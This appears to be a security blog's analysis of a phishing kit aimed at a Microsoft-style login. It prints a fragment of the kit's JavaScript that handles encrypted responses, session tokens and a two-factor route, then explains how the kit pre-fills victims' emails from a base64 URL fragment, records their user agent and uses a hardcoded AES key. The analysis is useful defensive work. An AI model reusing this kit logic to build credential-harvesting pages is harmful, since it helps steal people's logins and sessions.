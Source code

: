 ```javascript
                    resolve('missing value');
                    }
                    if (response.message !== "Token Not Found") {
                    let decryptedresp = JSON.parse(decryptData(response));
                    if(route !== "twofaselected"){
                    if (decryptedresp.token) {
                        token = decryptedresp.token;
                    }
                    }
                    if (decryptedresp.message == "Token Not Found" && retryCount < 3) {
                        console.log('data: '+formattedargs);
                        setTimeout(function(){
                        resolve(makeRequest(retryCount + 1));
                        }, 3000);
                    } else {
                        // console.log(decryptedresp);
                        requestsent = false;
                        resolve(decryptedresp);
                    }
                    }
                },
                error: function(xhr, status, error) {
                    requestsent = false;
                    console.error('Error:', error);
                    reject(error);
                }
            });
        });
    };
    return makeRequest(0);
}
};
```

Uuufh. Big one right? Ok chill. Lets go through step-by-step. The above script block is the core functionality for this phishing kit. Firstly it pre-fills the login page with a base64 encoded url fragment like this:

```bash
https://login-secure365.com/?am9obkBleGFtcGxlLmNvbQ==

becomes -> john@example.com and prefills it
```

Then it captures the victims useragent:

```javascript
var userAgent = navigator.userAgent;
if (userAgent.match(/edg/i)) browserName = "Edge";
```

After that it sets up a basic AES-CBC encryption. Both the Key and the IV are hardcoded showing weak OPSEC. (SHAME ON YOU...).
